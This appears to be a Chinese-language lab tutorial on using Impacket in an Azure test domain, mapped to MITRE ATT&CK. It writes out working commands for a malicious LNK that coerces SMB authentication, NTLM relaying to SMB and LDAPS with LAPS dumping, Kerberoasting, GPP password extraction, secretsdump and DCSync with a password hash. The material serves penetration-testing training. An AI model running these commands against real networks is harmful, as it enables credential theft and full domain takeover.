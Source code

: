 ```yaml
---
date: 2025-08-02T10:34:24+08:00
title: 使用Azure实验室进行Impacket攻击基础教程
tags: [网络安全,渗透测试,Impacket,Azure]
authors: qife
description: 本文详细介绍了如何使用Impacket工具集在Azure实验室环境中进行基础攻击测试，包括ntlmrelayx.py、GetADUsers.py等工具的使用方法及对应MITRE ATT&CK攻击技术映射。
---
```


# Impacket攻击基础与Azure实验室搭建

## 概述
本文是对Impacket工具集作者SecureAuthCorp及开源维护者的致敬，将介绍该工具包的核心技术应用。项目地址：https://github.com/SecureAuthCorp/impacket

## 实验室搭建
使用ARM模板部署（doazlab.com或github.com/DefensiveOrigins/DO-LAB）：
1. 认证可创建资源的Azure订阅
2. 部署包含域控制器、加入的工作站和Ubuntu系统的实验环境

## ntlmrelayx.py攻击实战
### 恶意LNK文件攻击（MITRE ATT&CK T1204）
通过PowerShell创建诱导性快捷文件：
```powershell
cd c:\
mkdir c:\file6
New-SmbShare -Name "file6" -Path "C:\file6" -ChangeAccess "Users" -FullAccess "Administrators"
$objShell = New-Object -ComObject WScript.Shell
$lnk = $objShell.CreateShortcut("c:\file6\malicious.lnk")
$lnk.TargetPath = "\\10.0.0.8\@threat.png"
$lnk.WindowStyle = 1
$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"
$lnk.Description = "用户浏览含此LNK文件的共享时将触发SMB认证"
$lnk.HotKey = "Ctrl+Alt+O"
$lnk.Save()
```

### 中间人攻击（MITRE ATT&CK T1557）
启动ntlmrelayx监听器：
```bash
sudo -s
cd /opt/impacket
source imp-env/bin/activate
cd examples
ntlmrelayx.py -t 192.168.2.5 -smb2support | tee –a /opt/impacket/relay1.log
```
当受害者访问含恶意LNK的共享时，凭证将被中继到目标系统。

### LDAP服务攻击
针对域控制器的安全LDAP服务（TCP/636）：
```bash
ntlmrelayx.py -t ldaps://dc01.doazlab.com -ts -l /opt/impacket/loot --add-computer BHISBlog47 --dump-laps --no-dump --no-da
```
参数说明：
- `-t`: 指定目标LDAP服务
- `-ts`: 控制台输出添加时间戳
- `-l`: 定义战利品目录
- `--add-computer`: 添加域计算机
- `--dump-laps`: 提取LAPS密码
- `--no-dump`: 不转储AD数据
- `--no-da`: 不创建域管理员

## 其他Impacket工具
### GetADUsers.py（MITRE ATT&CK T1087）
枚举域用户：
```bash
python3.9 GetADUsers.py -all -ts doazlab.com/doadmin:'DOLabAdmin1!' -dc-ip 192.168.2.4 |tee -a /opt/adusers.txt
```

### Get-GPPPassword.py（MITRE ATT&CK T1552.006）
提取组策略首选项密码：
```bash
python3.9 Get-GPPPassword.py 'doazlab.com'/'doadmin':'DOLabAdmin1!'@'192.168.2.4'
```

### GetUserSPNs.py（MITRE ATT&CK T1558.003）
收集Kerberos票据哈希：
```bash
python3.9 GetUserSPNs.py 'doazlab.com'/'doadmin':'DOLabAdmin1!' -dc-ip 192.168.2.4 -outputfile /opt/hashes/kerbs.txt
```

### Secretsdump.py
#### 远程凭证转储（MITRE ATT&CK T1003.003）：
```bash
python3.9 secretsdump.py doazlab/doadmin:'DOLabAdmin1!'@192.168.2.5 |tee -a /opt/hashes/secrets-output.txt
```

#### DCSync攻击（MITRE ATT&CK T1003.006）：
```bash
python3.9 secretsdump.py -outputfile 'doazlab.dit' 'doazlab.com'/doadmin@'192.168.2.4' -hashes aad3c435b514a4eeaad3b935b51304fe:3606a042149187931ced1f8cedafe26c
```